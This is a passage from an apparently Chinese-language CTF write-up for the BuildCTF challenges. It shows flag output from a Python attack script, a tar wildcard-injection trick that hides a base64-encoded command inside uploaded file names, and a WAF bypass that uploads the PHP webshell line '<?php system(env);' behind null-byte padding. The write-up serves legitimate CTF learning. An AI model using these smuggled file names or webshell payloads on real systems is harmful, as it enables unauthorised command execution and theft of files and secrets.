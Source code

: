 ```Python
    thr.map(attack, payloads)
'''
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'

b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'b'BuildCTF{5d5a77cc-0406-40d9-9087-bb3953ec7f8c}'
'''
```

## 打包给你

![L6YtvZPBS52bxac](img/1.png)

*表示当前目录下所有非隐藏文件文件名组合    

上传文件名

1. --checkpoint=1
2. --checkpoint-action=exec=$(echo Y2F0IC9HdWVzc19teV9uYW1l|base64 -d)>1
3. 2.txt(任意文件)

下载两次，第一次相当于把文件名拼到*的地方，执行命令$(echo Y2F0IC9HdWVzc19teV9uYW1l|base64 -d)>1将flag内容写入文件1

第二次将1打包发送给我们

## ez_waf

\x0000000000000000截断

找一个文件尾有很多\x00000的文件

bp抓包文件尾添加<?php system(env);   上传成功